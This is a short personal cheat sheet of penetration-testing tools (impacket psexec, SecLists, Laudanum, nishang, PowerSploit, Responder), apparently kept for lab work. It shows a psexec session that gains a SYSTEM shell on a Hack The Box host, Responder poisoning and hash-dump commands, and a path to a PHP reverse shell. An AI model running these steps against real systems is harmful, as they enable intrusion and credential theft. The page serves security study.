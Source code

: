# Misc Pentesting Tools
###### tags: `Security` `Tools`
#####

---

# collection
## Misc
### [impacket](https://github.com/SecureAuthCorp/impacket)
Impacket is a collection of Python classes for working with network protocols.

#### impacket-psexec
Get `system` shell
```
python3 psexec.py Administrator@bastion.htb 
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on bastion.htb.....
[*] Found writable share ADMIN$
[*] Uploading file hoQpxzMA.exe
[*] Opening SVCManager on bastion.htb.....
[*] Creating service qdbo on bastion.htb.....
[*] Starting service qdbo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

### [seclists](https://github.com/danielmiessler/SecLists)
List types include usernames, passwords, URLs, sensitive data patterns, fuzzing payloads, web shells, and many more
```
/usr/share/seclists
Discovery  IOCs           Passwords         Payloads   Usernames
Fuzzing    Miscellaneous  Pattern-Matching  README.md  Web-Shells
```

### [Laudanum](https://sourceforge.net/projects/laudanum/)
Laudanum is a collection of injectable files
```
/usr/share/laudanum
asp  aspx  cfm  helpers  jsp  php  README  wordpress
```
* php - reverse shell `/usr/share/laudanum/php/php-reverse-shell.php`

## Microsoft
### nishang
> Offensive PowerShell for red team, penetration testing and offensive security.
[GitHub](https://github.com/samratashok/nishang)
```
/usr/share/nishang/
ActiveDirectory  Bypass      Execution  MITM          powerpreter  Shells
Antak-WebShell   Client      Gather     nishang.psm1  Prasadhak    Utility
Backdoors        Escalation  Misc       Pivot         Scan
```
* [reverse shell](https://hackmd.io/@WildfootW/H1Po1QzSr?both#powershell)

### PowerSploit
> PowerSploit - A PowerShell Post-Exploitation Framework
```
/usr/share/windows-resources/powersploit * this version is too old
AntivirusBypass  Mayhem            PowerSploit.psm1  Recon
CodeExecution    Persistence       Privesc           ScriptModification
Exfiltration     PowerSploit.psd1  README.md         Tests
```

# Others
### Responder/MultiRelay
[GitHub - lgandx](https://github.com/lgandx/Responder)
Responder an LLMNR, NBT-NS and MDNS poisoner. It will answer to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix (see: http://support.microsoft.com/kb/163409).
```
responder -I tun0
```
Get Full hashes in Responder
```
locate Responder.db
sqlite3 /usr/share/responder/Responder.db
sqlite> select * from responder;
```

